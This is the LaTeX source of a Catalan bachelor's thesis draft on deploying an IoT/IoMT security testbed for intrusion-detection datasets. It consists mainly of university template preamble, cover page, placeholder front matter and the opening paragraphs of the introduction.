% These are "magic" comments understood by the "TeXStudio" editor
% !TeX encoding = UTF-8
% !TeX TS-program = lualatex
% !TeX TXS-program:bibliography = biber
% Document title: ETSETB TFG LaTeX Template
% Version: 5.1
% Author: 2023 Orestes Mas Casals
% License: ETSETB TFG LaTeX Template by Orestes Mas is marked with CC0 1.0 Universal

\documentclass[a4paper,twoside,12pt]{report}

% Load auxiliary package for various tasks
% Document title: ETSETB TFG LaTeX Template
% Version: 5.0
% Author: 2023 Orestes Mas Casals
% License: ETSETB TFG LaTeX Template by Orestes Mas is marked with CC0 1.0 Universal

%%%% TOOLS %%%%
\usepackage{lipsum}
\usepackage{etoolbox}   % <<< Provides some macros to compare text
\usepackage{iftex}      % <<< Detect TeX engine used to compile the document
\usepackage{float}
%%%% MATH SETUP %%%%
\usepackage{mathtools}

%%%% INTERNATIONAL SYSTEM NOTATION FOR UNITS IN NUMBERS %%%%
\usepackage{siunitx}

%%%% FONTS SETUP %%%%
\iftutex   % True if compiling with Unicode engines (XeTeX/LuaTeX)
  \usepackage{fontspec}
  \usepackage[math-style=ISO,
    warnings-off={mathtools-colon, mathtools-overbracket},
  ]{unicode-math}
  %  This package is only a wrapper for the two packages libertinus-type1 (pdfLaTeX) and libertinus-otf (LuaLaTeX/XeLaTeX).
  %  The Libertinus fonts are similiar to Libertine and Biolinum, but come with math symbols. 
  \usepackage{libertinus}
  % Use DejaVu Mono for monospaced font
  \usepackage[
    mono=true,serif=false,sans=false,math=false,
    TT={Scale=0.80,FakeStretch=1.0}]{dejavu-otf}
\else    % True if compiling with 8-bit engines (LaTeX/pdfLaTeX)
  \usepackage[T1]{fontenc}
  %  This package is only a wrapper for the two packages libertinus-type1 (pdfLaTeX) and libertinus-otf (LuaLaTeX/XeLaTeX).
  %  The Libertinus fonts are similiar to Libertine and Biolinum, but come with math symbols. 
  \usepackage{libertinus,libertinust1math}
  % Use DejaVu Mono for monospaced font
  \usepackage[scaled=0.80]{DejaVuSansMono}
  % Some declarations for the Gantt diagram example
  \DeclareUnicodeCharacter{1D49}{\textsuperscript{e}} % "ᵉ" character
  \DeclareUnicodeCharacter{02B3}{\textsuperscript{r}} % "ʳ" character
  \DeclareUnicodeCharacter{1D52}{\textsuperscript{o}} % "ᵒ" character
\fi
\usepackage{microtype}

%%%% PAGE GEOMETRY %%%%
\usepackage{geometry}

%%%% PAGE STYLE %%%%%
\usepackage{fancyhdr}

%%%% PARAGRAPH STYLE %%%%
% Blank line between paragraphs instead of first line indenting
\usepackage{parskip}

%%%% TITLES STYLE %%%%
\usepackage{titlesec}

%%%% COLOR DEFINITIONS %%%%
\usepackage[svgnames]{xcolor}

%%%% TABLES %%%%
%\usepackage{array}
\usepackage{tabularx,booktabs}

%%%% ACRONYMS %%%%
\usepackage{acro}
% class `abbrev': abbreviations:
\DeclareAcronym{EU}{
  short = EU,
  long  = European Union,
  tag = abbrev
}

\DeclareAcronym{ETSETB}{
  short = ETSETB,
  long  = Escola Tècnica Superior d'Enginyeria de Telecomunicació de Barcelona,
  tag = abbrev
}

\DeclareAcronym{GRETST}{
  short = GRETST ,
  long  = Grau en Enginyeria de Tecnologies i Serveis de Telecomunicació,
  tag = abbrev
}

\DeclareAcronym{GREELEC}{
  short = GREELEC,
  long  = Grau en Enginyeria Electrònica de Telecomunicació,
  tag = abbrev
}

\DeclareAcronym{GEF}{
  short = GEF,
  long  = Grau en Enginyeria Física,
  tag = abbrev
}



%%%% GRAPHICS %%%%
\usepackage{graphicx}
\usepackage{caption}        %
\usepackage{tikz}           % Generic vector graphics language
\usepackage{pgfgantt}       % Gantt diagrams. See "pgfgantt" manual for reference

%%%% ELECTRONIC CIRCUITS %%%%
\usepackage{circuitikz}

%%%% PLOTTING %%%%
\usepackage{pgfplots}

%%%% COLOR BOXES %%%%
\usepackage{tcolorbox}

%%%% BIBLIOGRAPHY (using biblatex) %%%%
%\usepackage[section,numbib]{tocbibind}       % Makes bibliography appear in the Table of Contents
\usepackage[backend=biber,style=numeric]{biblatex}
\addbibresource{TFG.bib}

%%%% QUOTES %%%%
\usepackage{csquotes}

%%%% HYPERLINKS %%%%
\usepackage{hyperref}


% Document style definitions. GHANGE STYLES THERE.
% Document title: ETSETB TFG LaTeX Template
% Version: 5.0
% Author: 2023 Orestes Mas Casals
% License: ETSETB TFG LaTeX Template by Orestes Mas is marked with CC0 1.0 Universal

%%% COLORS
\definecolor[named]{ETSETBcopper}{RGB}{220,68,05}
\definecolor[named]{UPCblue}{RGB}{15,128,204}
\colorlet{DefaultColor}{SlateGray}
\colorlet{GRETSTcolor}{SteelBlue}
\colorlet{GREELECcolor}{SeaGreen}
\colorlet{GEFcolor}{SlateBlue}
% This color will change according to the Degree set.
\colorlet{DegreeColor}{ETSETBcopper}

%%% PAGE GEOMETRIES
% Geometry of cover page
\newgeometry{
  headheight=2cm,
  headsep=1cm,
  top=3cm,
  bottom=3cm,
  left=3.5cm,
  right=2.5cm,
  top=4.5cm,           % Allow space on the top for the logos
}
\savegeometry{cover}

% Geometry for main content pages
\newgeometry{%
  headheight=30pt,
  headsep=1cm,
  top=3.5cm,
  bottom=3.5cm,
  footskip=1.5cm,
  left=3cm,
  right=3cm,
  marginparwidth=20pt,
}
\savegeometry{main}

%%% Redefinition of various commands
%%% It must be done this way, because these styles are hardcoded into Book class
\makeatletter
\renewcommand{\tableofcontents}{%
  \chapter*{\contentsname%
    \@mkboth{\contentsname}{\contentsname}%
  }%
  \@starttoc{toc}%
}
\renewcommand{\listoffigures}{%
  \chapter*{\listfigurename%
    \@mkboth{\listfigurename}{\listfigurename}%
  }%
  \@starttoc{lof}%
}
\renewcommand{\listoftables}{%
  \chapter*{\listtablename%
    \@mkboth{\listtablename}{\listtablename}%
  }%
  \@starttoc{lot}%
}
\makeatother

%%% HEADER / FOOTER STYLES FOR VARIOUS DOCUMENTS PARTS

% "plain" page style is invoked always (unless changed by user) at the first page of each chapter
\fancypagestyle{plain}{
  \fancyhf{}
  \renewcommand\headrulewidth{0pt}
  \renewcommand\footrulewidth{0pt}
  \fancyfoot[C]{-- \thepage\ --}
}

% Front cover style
\fancypagestyle{frontcover}[plain]{%
  \fancyhf{}     % Empty current header and footer
  \fancyhead[L]{
\includegraphics[height=1.75cm]{img/logos/Logo_UPC_ETSETB_tight.pdf}}
  \fancyhead[R]{
\includegraphics[height=1.75cm]{img/logos/logo_telecos.png}}
  \renewcommand{\footrulewidth}{6pt}%
  \futurelet\TMPfootrule\def\footrule{{\color{gray!80}\TMPfootrule}}
}

% Main content style
\fancypagestyle{main}[plain]{%
  % Draw a line under the heading of every page EXCEPT on float pages or if they start with a figure
  \renewcommand\headrulewidth{\iftopfloat{0pt}{\iffloatpage{0pt}{1pt}}}
  \futurelet\TMPheadrule\def\headrule{{\color{gray!80}\TMPheadrule}}
  % 
  \renewcommand{\chaptermark}[1]{\markboth{\chaptername\ \thechapter{}. ##1}{}}
  \renewcommand{\sectionmark}[1]{\markright{\thesection\ - ##1}}
  \fancyhead[LE]{\scshape\leftmark}
  \fancyhead[RO]{\scshape\rightmark}%
}

%%% STYLE FOR CHAPTER TITLE
% Format of titles is:
% \titleformat
%   {command}
%   [shape]
%   {format}
%   {label}
%   {sep}
%   {before-code}
%   [after-code]
\titleformat
{\chapter}%
[display]        % The "display" shape puts the label in a separate paragraph
{\sffamily\normalsize\Huge\color{black}}% Format of the whole title
{\flushright\sffamily\normalsize\color{DegreeColor}\hrulefill\hspace{1ex}%
   \MakeUppercase{\chaptertitlename}\hspace{1ex}% 
   {\sffamily\fontsize{60}{60}\selectfont\thechapter}%
}% Label format - A line followed by a "Chapter" string and a large colored chapter number
{5 pt}% Vertical separator between the label and the title body
{\flushright\bfseries\LARGE}% Code preceding title body (title is LARGE bold and raggedleft)
[]% Code after the title body.

%%% STYLE FOR TABLES %%%
% Increase spacing between cell content and borders
\renewcommand{\arraystretch}{1.5}

%%% BIBLIOGRAPHY STYLE %%%
\ExecuteBibliographyOptions{  
  sorting=nyt,
}
% Enlarge separation between bibliography items
\setlength\bibitemsep{0.5\baselineskip}

%%% FIGURE's CAPTION STYLE %%%
\DeclareCaptionFont{blue}{\color{blue}}
\captionsetup{
  labelfont={blue,sf,bf},
  textfont=it,
}

%%% TIKZ/PGF DRAWING GLOBAL STYLES %%%
\usetikzlibrary{
  babel,  % DON'T EVER TRY TO REMOVE THAT IF YOU USE THE "babel" PACKAGE !!
  angles,calc,quotes,
  arrows.meta,positioning,shapes.misc,shapes.geometric,
  patterns,decorations.pathmorphing,decorations.markings,
}
\tikzset{
}

%%% PGFPLOTS SETTINGS %%%
\pgfplotsset{
  compat=1.18,       % Avoiding a warning
}

%%% GANTT DIAGRAMS GLOBAL STYLES %%%
\ganttset{
  progress label text = {\pgfmathprintnumber[precision=0, verbatim]{#1}\% \ifcase\doclanguage\or completa\or completa\else complete\fi}
}

%%% TCOLORBOX STYLES
\tcbuselibrary{skins,breakable,listingsutf8}

%%% HYPERREF OPTIONS %%%
\hypersetup{
  breaklinks=true,
  colorlinks=true,    % CHANGE TO "true" IF YOU WANT COLORED TEXT LINKS INSTEAD OF BEING SURROUNDED BY A BORDER.
%  hidelinks,          % UNCOMMENT IF YOU WANT TO REMOVE COLOR AND BORDER AROUND THE LINKS.
}

\lstdefinestyle{mystyle}{
    basicstyle=\ttfamily\small,
    keywordstyle=\color{blue},
    commentstyle=\color{green!50!black},
    stringstyle=\color{red},
    showstringspaces=false,
    breaklines=true,
    frame=tb,
    numbers=left,
    numberstyle=\tiny\color{gray},
    tabsize=2
}

\lstset{style=mystyle}

\lstdefinelanguage{yaml}{
    keywords={true, false, null},
    sensitive=false,
    comment=[l]{\#},
    morestring=[b]",
    morestring=[b]',
    morecomment=[s]{/*}{*/}
}
\lstdefinelanguage{bash}{
    alsoletter={-,_},
    morekeywords={sudo, apt, install, update, upgrade, echo, python3, pip},
    morecomment=[l]{\#},
    morestring=[b]"
}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%                                                                %%%
%%%              DADES DEL DOCUMENT / DOCUMENT DATA                %%%
%%%                                                                %%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

%%% Please UNCOMMENT and/or provide suitable information to the macros below
%%% Si us plau, DESCOMENTEU i/o ompliu les macros següents amb la informació adient.

%%% Specify the document language
%%%   1: Catalan
%%%   2: Spanish
%%%   3: English
\newcommand{\doclanguage}{1}

% Set-up language and load language-related cover page macros
% Document title: ETSETB TFG LaTeX Template
% Version: 5.0
% Author: 2023 Orestes Mas Casals
% License: ETSETB TFG LaTeX Template by Orestes Mas is marked with CC0 1.0 Universal

%%%% TEMPLATE LANGUAGE MACROS %%%%

% Language selection based on the language variable defined above
\ifcase\doclanguage\or
  % Case 1
  \usepackage[catalan]{babel}
  \selectlanguage{catalan}%
  \setquotestyle{spanish}% El paquet "csquotes" no té estil pel català, però podem usar l'espanyol
  \newcommand\TFGdate{
    \ifcase\month\or%
      Gener\or Febrer\or Març\or Abril\or
      Maig\or Juny\or Juliol\or Agost\or
      Setembre\or Octubre\or Novembre\or Desembre\fi
      \space de~\number\year%
    }
\or % Case 2
  \usepackage[spanish,es-noquoting]{babel}
  \selectlanguage{spanish}%
  \newcommand\TFGdate{
    \ifcase\month\or%
      Enero\or Febrero\or Marzo\or Abril\or
      Mayo\or Junio\or Julio\or Agosto\or
      Septiembre\or Octubre\or Noviembre\or Diciembre\fi
      \space de~\number\year%
    }
\else % Case 3 (default)
  \usepackage[english]{babel}
  \selectlanguage{english}%
  \newcommand\TFGdate{
    \ifcase\month\or%
      January\or February\or March\or April\or
      May\or June\or July\or August\or
      September\or October\or November\or December\fi
      \space\number\year%
    }
\fi

\newcommand\degreename{
  \ifcase\doclanguage
  \or
    \{Nom del Grau\}%
  \or
    \{Nombre del Grado\}%
  \else
    \{Degree's Name\}%
  \fi
}

\newcommand\GEF{
  \ifcase\doclanguage
  \or
    Grau en Enginyeria Física
  \or
    Grado en Ingeniería Física
  \else
    Degree in Physics Engineering
  \fi
}

\newcommand\GRETST{
  \ifcase\doclanguage
  \or
    Grau en Enginyeria de Tecnologies i Serveis de Telecomunicació
  \or
    Grado en Ingeniería de Tecnologías y Servicios de Telecomunicación
  \else
    Degree in Telecommunication Technologies and Services Engineering
  \fi
}

\newcommand\GREELEC{
  \ifcase\doclanguage
  \or
    Grau en Enginyeria Electrònica de Telecomunicació
  \or
    Grado en Ingeniería Electrónica de Telecomunicación
  \else
    Degree in Electronics Engineering%  Should be "Degree in Telecommunication Electronics Engineering"
  \fi
}

\newcommand{\studentsname}{
  \ifcase\doclanguage
  \or
    \{Nom de l'Autor\}%
  \or
    \{Nombre del Autor\}%
  \else
    \{Author's Name\}%
  \fi
}

\newcommand\reporttitle{
  \ifcase\doclanguage
  \or
    \{Títol del Treball\}%
  \or
    \{Título del Trabajo\}%
  \else
    \{Report's title\}%
  \fi
}

\newcommand\FirstParagraph{
  \ifcase\doclanguage
  \or
    Treball de Fi de Grau\medskip\\
    presentat a l'Escola Tècnica Superior\medskip\\
    d'Enginyeria de Telecomunicació de Barcelona\medskip\\
    de la Universitat Politècnica de Catalunya\medskip\\
    per
  \or
    Trabajo de Final de Grado\medskip\\
    presentado en la Escola Tècnica Superior\medskip\\
    d'Enginyeria de Telecomunicació de Barcelona\medskip\\
    de la Universitat Politècnica de Catalunya\medskip\\
    por
  \else
    Bachelor's Degree Thesis\medskip\\
    Submitted to the Faculty at the\medskip\\
    Escola Tècnica Superior\medskip\\
    d'Enginyeria de Telecomunicació de Barcelona\medskip\\
    of the Universitat Politècnica de Catalunya\medskip\\
    by
  \fi
}

\newcommand\SecondParagraph{
  \ifcase\doclanguage
  \or
    En compliment parcial\medskip\\
    dels requisits per a l'obtenció del
  \or
    En cumplimiento parcial\medskip\\
    de los requisitos para la obtención del
  \else
    In partial fulfillment\medskip\\
    of the requirements for the
  \fi
}

\newcommand\advisor{
  \ifcase\doclanguage
  \or
    \textit{\{Nom del director del projecte\}}
  \or
    \textit{\{Nombre del director del proyecto\}}
  \else
    \textit{\{Advisor's Name\}}
  \fi
}

\newcommand\reviewer{
  \ifcase\doclanguage
  \or
    \textit{\{Nom del ponent (si s'escau)\}}
  \or
    \textit{\{Nombre del ponente (si aplica)\}}
  \else
    \textit{\{Reviewer's Name (if applicable)\}}
  \fi
}

\newcommand\ThesisTitle{\reporttitle}
\newcommand\AuthorName{\studentsname}
\newcommand\DegreeName{\degreename}
\newcommand\AdvisorName{\advisor}
\newcommand\ReviewerName{\reviewer}
\newcommand\documentDate{\TFGdate}
\newcommand\AdvisorLine{
  \ifcase\doclanguage
  \or
    Director/a:
  \or
    Director/a:
  \else
    Advisor:
  \fi \AdvisorName
}
\newcommand\ReviewerLine{
  \ifcase\doclanguage
  \or
    Ponent:
  \or
    Ponente:
  \else
    Reviewer:
  \fi \ReviewerName
}

% Define some macros for user-provided information
\newcommand\setTitle[1]{\renewcommand{\ThesisTitle}{#1}}
\newcommand\setAuthor[1]{\renewcommand{\AuthorName}{#1}}
\newcommand\setDegree[1]{%
  \renewcommand{\DegreeName}{#1}
  % This stablishes a different color for each Degree
  % It's only a proposal and proof-of-concept. By now it's disabled until approval
%  \ifdefstring{\DegreeName}{\GRETST}{
%    \colorlet{DegreeColor}{GRETSTcolor}
%  }{
%    \ifdefstring{\DegreeName}{\GREELEC}{
%      \colorlet{DegreeColor}{GREELECcolor}
%    }{
%      \ifdefstring{\DegreeName}{\GEF}{
%        \colorlet{DegreeColor}{GEFcolor}
%      }{
%        \colorlet{DegreeColor}{UPCblue}
%      }
%    }
%  }
}
\newcommand\setAdvisor[1]{\renewcommand{\AdvisorName}{#1}}
\newcommand\setReviewer[1]{\renewcommand{\ReviewerName}{#1}}
\newcommand\setDate[1]{\renewcommand{\documentDate}{#1}}



%%% Thesis Title / Títol del TFG
\setTitle{Deployment of a security testbed for IoT}

%%% Name of the Thesis Author / Nom de l'autor del TFG
\setAuthor{Joel Otero Masplà}

%%% Degree's name. Uncomment the "setDegree" macro and set its argument to one:
%%% Nom del Grau. Descomenteu la macro «setDegree» i passeu-li un d'aquests paràmetres:
%%%   \GEF     - Physics Engineering            <<<< DON'T USE THIS, as the template is not approved by the GEF faculty yet
%%%   \GREELEC - Electronics Engineering
%%%   \GRETST  - Telecommunications Engineering
\setDegree{\GRETST}

%%% Name of the Thesis Advisor / Director
\setAdvisor{Olga León Abarca}

%%% Name of the Thesis Rewiewer / «Ponent»
%\setReviewer{Mary Major}

%%% Document's date (\TFGdate by default)
\setDate{15 de juny de 2025}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%% PREAMBLE ENDS - DOCUMENT BEGINS %%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\begin{document}

%%%%%%%%%%%%%%%%%%%%%%%%% FRONT COVER %%%%%%%%%%%%%%%%%%%%%%%%%
\begin{titlepage}
  % Cover page style defined in config/styles.tex
  \loadgeometry{cover}
  \thispagestyle{frontcover}
  % Use a Sans Serif typeface throughout
  \sffamily
  
  % Title page background image
  \begin{tikzpicture}[remember picture,overlay]
    \node[anchor=center,opacity=0.3,xshift=5mm,yshift=-10mm,scale=8] (Campillo) at (current page.center) {
\includegraphics{img/Campillo.png}};
    \filldraw[color=DegreeColor] (current page.south west) rectangle +(1.5cm,\paperheight);
    \filldraw[color=ETSETBcopper] (current page.south west) -- ++(0,0.140\paperheight-10pt) -- ++(0.75cm,20pt) --   ++(0.75cm,-20pt) -- ++(0,-0.140\paperheight+10pt) -- cycle;
    % This commented out sentence is work-in-progress
    % \node[anchor=south,at=(current page.south west),xshift=0.75cm,yshift=0.5cm] {\rotatebox{90}{\textcolor{white}{\Huge\bfseries \raisebox{-3pt}{ETSETB}~~~~\LARGE\DegreeName}}};
    \node[anchor=south,at=(current page.south west),xshift=0.75cm,yshift=0.5cm] {\rotatebox{90}{\textcolor{white}{\Huge\bfseries \raisebox{0pt}{ETSETB} -- \LARGE\DegreeName}}};
  \end{tikzpicture}
  
  \begin{center}
    \vspace*{2.5cm}
    
    {\Huge \ThesisTitle}\\
    
    \vspace{0.8cm}
    
    \color{black}\hrule height 2pt
    
    \vspace{1cm}
    
    {\large \FirstParagraph}\bigskip\\
  
    {\Large \AuthorName}\medskip\\
    
    \vspace{2.5cm}
    
    \SecondParagraph\medskip\\
    
    {\bfseries\scshape\DegreeName}
    
    % This is an elastic space
    \vfill
    
    \AdvisorLine\medskip\\
    
    %%% Comment out / delete the following line if there's no thesis reviewer
    %\ReviewerLine\medskip\\
    
    \vspace{1cm}
    
    {Barcelona, \documentDate}
    
    \vspace{1cm}
  \end{center}
\end{titlepage}

% Restore default page geometry (modified by cover page code)
%\restoregeometry
\loadgeometry{main}

%%%%%%%%%%%%%%%%%%%%%%%%% PREAMBLE BEGINS %%%%%%%%%%%%%%%%%%%%%%%%%
\pagestyle{plain}


%%%% SUMMARY / RESUM %%%%
% DON'T CHANGE THIS LINE
\addcontentsline{toc}{section}{\ifcase\doclanguage\or Resum \or Resumen \else Summary\fi}

%%%% PLEASE REPLACE TEXTS WITH YOUR OWN CONTENT %%%%

%%% RESUM EN CATALÀ
\begin{center}
  \huge\bfseries\raggedright Resum~\hrulefill
\end{center}
Els dispositius d'internet de les coses en l'entorn mèdic (IoMt)...
%%% RESUMEN EN CASTELLANO
\begin{center}
  \huge\bfseries\raggedleft\vspace*{.5\baselineskip} \hrulefill ~Resumen
\end{center}
  Cada ejemplar del Trabajo de Fin de Grado (TFG) debe incluir un Resumenque es un breve extracto del TFG. En cuanto al estilo, el Resumen debería ser una versión reducida del proyecto: una introducción breve, un resumen de los resultados principales y las conclusiones o argumentos principales presentados en el proyecto. El Resumen no debe exceder las 150 palabras y debe estar traducido al catalán, castellano e inglés.

%%% ENGLISH SUMMARY
\begin{center}
  \huge\bfseries\raggedright\vspace*{.5\baselineskip} Summary~\hrulefill
\end{center}
  Each copy of the Bachelor's Thesis (TFG) must include a Summary, which is a concise abstract of the TFG. In terms of style, the Summary should be a condensed version of the project: a brief introduction, a summary of the main results, and the conclusions or key arguments presented in the project. The Summary should not exceed 150 words and must be translated to catalan, spanish and english.
                   % <<<<<< Please replace "summary.tex" entirely with your own content written in the required languages.


%%%% DEDICATION PAGE / PÀGINA DE DEDICATÒRIA %%%%
\clearpage
\thispagestyle{empty}             % No header/footer
\vspace*{4cm}                     % 
\hfill                            % Push the minipage to the right
\begin{minipage}{0.8\textwidth}   % You can adjust the minipage width
  \raggedleft\itshape             % Text in italics and flushed to the right
  \ifcase\doclanguage\or          % REPLACE FROM HERE (including the \ifcase structure) WITH YOUR OWN TEXT
    Podeu incloure una pàgina de Dedicatòries just abans de la pàgina d’Agraïments, però no és un requisit.\or
    Puede incluirse una página de Dedicatorias justo antes de la página de Agradecimientos, pero no es un requisito.\else
    A Dedication page may be included in your thesis just before the Acknowledgments page, but it is not a requirement.\fi
\end{minipage}



%%%% ACKNOWLEDGEMENTS / AGRAÏMENTS %%%%
\clearpage
\ifcase\doclanguage    % REPLACE FROM HERE (including the \ifcase structure) WITH YOUR OWN TEXT
\or
\chapter*{Agraïments}
\addcontentsline{toc}{section}{Agraïments}

Vull expressar el meu sincer agraïment a la meva supervisora pel seu acompanyament, disponibilitat i orientació al llarg de tot aquest projecte. També a la resta de professors del grup de recerca i estudiants que hi participen per les seves valuoses aportacions i consells que han enriquit el meu treball.

Per altra banda, agraeixo profundament a la meva parella, a la meva família i als meus amics pel seu suport emocional constant durant aquest procés. El seu ànim i comprensió han estat essencials per mantenir la motivació i l’equilibri personal.
\or
\chapter*{Agradecimientos}
\addcontentsline{toc}{section}{Agradecimientos}

Es apropiado, aunque no obligatorio, declarar la extensión de la ayuda recibida por personas del staff, compañeros/as estudios, técnicos/as u otras en la recolección de datos, preparación del proyecto (incluyendo ayuda editorial). Además, es apropiado reconocer la supervisión, ayuda y dirección aportada por el tutor/a. 
\else
\chapter*{Acknowledgements}
\addcontentsline{toc}{section}{Acknowledgements}

It is appropriate, but not mandatory, to declare the extent to which assistance has been given by members of the staff, fellow students, technicians or others in the collection of materials and data, the design and construction of apparatus, the performance of experiments, the analysis of data, and the preparation of the thesis (including editorial help). In addition, it is appropriate to recognize the supervision and advice given by your advisor.
\fi



%%%% REVISION HISTORY TABLE %%%% <<<<<< Please read the instructions inside the "revision_history.tex" file.
\vspace*{0cm}

% As the Revision History has three LaTeX tables, in this particular case it's better to separate the translations in three different files.
% Please modify the one that suit your needs and this code will ignore the languages you're not working on.

\ifcase\doclanguage\or
  \vspace*{0cm}

\chapter*{Historial de revisió i aprovació}
\addcontentsline{toc}{section}{Historial de revisió i aprovació}

\begin{tabularx}{\textwidth}{|c|l|l|X|}
  \hline
    \textbf{Revisió} & \textbf{Data} & \textbf{Autor(s)} & \textbf{Descripció} \\
  \hline
    1.0 & dd/mm/yyyy & AME & Creació del document \\
  \hline
    1.1 & dd/mm/yyyy & AME, JPV & Correcció d'errors \\
  \hline
    2.0 & dd/mm/yyyy & AME, MLO & Versió revisada \\
  \hline
    4.0 & dd/mm/yyyy & AME & Versió final \\
  \hline
    & & & \\
  \hline
\end{tabularx}

\vspace{1cm}

\textbf{LLISTA DE DISTRIBUCIÓ DEL DOCUMENT}

\begin{tabularx}{\textwidth}{|l|X|}
  \hline
    \textbf{Rol} & \textbf{Cognom(s) i Nom} \\
  \hline
    [Estudiant] &  \\
  \hline
    [Director del projecte] &  \\
  \hline
    [Director 2 (si aplica)] &  \\
  \hline
\end{tabularx}

\vspace{1cm}

\begin{tabularx}{\textwidth}{|l|X||l|X|}
  \hline
    \multicolumn{2}{|l||}{\textbf{Escrit per:}}  &  \multicolumn{2}{l|}{\textbf{Revisat i aprovat per:}} \\
  \hline
    Data &  dd/mm/yyyy & Data &  dd/mm/yyyy \\
  \hline
    Nom &  Xxxxxxx Yyyyyyy & Nom &  Xxxxxxx Yyyyyyy \\
  \hline
    Rol & Autor del projecte & Rol & Director del projecte \\
  \hline
\end{tabularx}


\or
  \vspace*{0cm}

\chapter*{Historial de revisión y aprobación}
\addcontentsline{toc}{section}{Historial de revisión y aprobación}

\begin{tabularx}{\textwidth}{|c|l|l|X|}
  \hline
    \textbf{Revisión} & \textbf{Fecha} & \textbf{Autor(es)} & \textbf{Descripción} \\
  \hline
    1.0 & dd/mm/yyyy & AME & Creación del documento \\
  \hline
    1.1 & dd/mm/yyyy & AME, JPV & Corrección de errores \\
  \hline
    2.0 & dd/mm/yyyy & AME, MLO & Versión revisada \\
  \hline
    4.0 & dd/mm/yyyy & AME & Versión final \\
  \hline
    & & & \\
  \hline
\end{tabularx}

\vspace{1cm}

\textbf{LISTA DE DISTRIBUCIÓN DEL DOCUMENTO}

\begin{tabularx}{\textwidth}{|l|X|}
  \hline
    \textbf{Rol} & \textbf{Apellido(s) y Nombre} \\
  \hline
    [Estudiante] &  \\
  \hline
    [Director del proyecto] &  \\
  \hline
    [Director 2 (sólo si aplica)] &  \\
  \hline
\end{tabularx}

\vspace{1cm}

\begin{tabularx}{\textwidth}{|l|X||l|X|}
  \hline
    \multicolumn{2}{|l||}{\textbf{Escrito por:}}  &  \multicolumn{2}{l|}{\textbf{Revisado y aprobado por:}} \\
  \hline
    Fecha &  dd/mm/yyyy & Fecha &  dd/mm/yyyy \\
  \hline
    Nombre &  Xxxxxxx Yyyyyyy & Nombre &  Xxxxxxx Yyyyyyy \\
  \hline
    Rol & Autor del proyecto & Rol & Director del proyecto \\
  \hline
\end{tabularx}


\else
  \vspace*{0cm}

\chapter*{Revision history and approval record}
\addcontentsline{toc}{section}{Revision history and approval record}
  
\begin{tabularx}{\textwidth}{|c|l|l|X|}
  \hline
  \textbf{Revision} & \textbf{Date} & \textbf{Author(s)} & \textbf{Description} \\
  \hline
  1.0 & dd/mm/yyyy & AME & Document creation \\
  \hline
  1.1 & dd/mm/yyyy & AME, JPV & Error correction \\
  \hline
  2.0 & dd/mm/yyyy & AME, MLO & Revised after review \\
  \hline
  4.0 & dd/mm/yyyy & AME & Final version \\
  \hline
  & & & \\
  \hline
\end{tabularx}

\vspace{1cm}

\textbf{DOCUMENT DISTRIBUTION LIST}

\begin{tabularx}{\textwidth}{|l|X|}
  \hline
    \textbf{Role} & \textbf{Surname(s) and Name} \\
  \hline
    [Student] &  \\
  \hline
    [Project Supervisor 1] &  \\
  \hline
    [Project Supervisor 2 (if applicable)] &  \\
  \hline
\end{tabularx}

\vspace{1cm}

\begin{tabularx}{\textwidth}{|l|X||l|X|}
  \hline
    \multicolumn{2}{|l||}{\textbf{Written by:}}  &  \multicolumn{2}{l|}{\textbf{Reviewed and approved by:}} \\
  \hline
    Date &  dd/mm/yyyy & Date &  dd/mm/yyyy \\
  \hline
    Name &  Xxxxxxx Yyyyyyy & Name &  Xxxxxxx Yyyyyyy \\
  \hline
    Position & Project Author & Position & Project Supervisor \\
  \hline
\end{tabularx}

\fi


%%%% INDEX %%%%
\clearpage
\addcontentsline{toc}{section}{\ifcase\doclanguage\or Índex\or Índice\else Contents\fi}
\tableofcontents


%%%% LISTS %%%%
\listoffigures 
\addcontentsline{toc}{section}{\ifcase\doclanguage\or Índex de figures \or Lista de figuras \else List of figures\fi}
\listoftables
\addcontentsline{toc}{section}{\ifcase\doclanguage\or Índex de taules \or Índice de cuadros \else List of tables\fi}
%\lstlistoflistings


%%%% ACRONYMS %%%% <<<<<< PLEASE DEFINE YOUR ACRONYMS IN "acronyms.tex"
\clearpage
\newcommand\AbbrvName{\ifcase\doclanguage\or Sigles i acrònims\or Siglas y acrónimos\else Abbreviations\fi}
\addcontentsline{toc}{section}{\AbbrvName}
\printacronyms[include=all][
  heading=chapter*,
  display=all,
  include=abbrev,
  name=\AbbrvName,
]


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% MAIN PART BEGINS %%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

% Starts normal numbering for the rest of the document
%\mainmatter  (valid/useful only if using the "book" class instead of "report" in the very first line)
\pagestyle{main}


% Introduction. Please replace "introduction.tex" entirely with your own content written in the desired language.
\chapter{Introducció}

\section{L'Internet de les Coses en l'àmbit sanitari}
L’Internet de les Coses (IoT) ha experimentat una expansió notable en els darrers anys, especialment en l’àmbit sanitari, donant lloc a l’anomenat Internet of Medical Things (IoMT). Aquesta branca integra dispositius mèdics interconnectats capaços de captar, processar i transmetre dades clíniques en temps real, amb l’objectiu de millorar l’eficiència assistencial i la qualitat del seguiment de pacients. No obstant això, aquesta creixent interconnexió també comporta una exposició més gran a vulnerabilitats i amenaces de seguretat, especialment en entorns on la disponibilitat, la integritat i la confidencialitat de les dades són crucials.

Aquest Treball de Fi de Grau s’insereix dins aquesta problemàtica i té com a objectiu principal el desenvolupament d’un entorn de proves (testbed) per a la generació de trànsit de xarxa en escenaris IoMT, tant legítim com maliciós. Aquest entorn ha de permetre la creació de datasets realistes orientats a l’entrenament i validació de sistemes de detecció d’intrusions (IDS) basats en tècniques d’intel·ligència artificial.

